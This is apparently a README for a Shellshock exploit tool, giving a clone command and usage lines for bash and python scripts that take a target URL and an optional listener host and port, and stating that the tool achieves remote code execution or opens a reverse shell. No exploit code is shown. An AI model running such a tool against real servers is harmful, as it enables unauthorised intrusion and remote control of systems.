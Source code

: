 
## How to use

#### Clone the repository (or just copy-paste the one you prefer)
```bash
  sudo git clone https://github.com/Gurguii/shellshock.sh
```  

#### Run the script
- Bash
```bash
    bash shellshock.sh -u <url> -h* <lhost> -p* <lport>
```
- Python
```bash
    python3 shellshock.py -u <url> -lh* <lhost> -lp* <lport>
```  
Note: default LPORT is 4444, URL required. If just URL given, it will RCE, else it will RSHELL to given lhost and lport
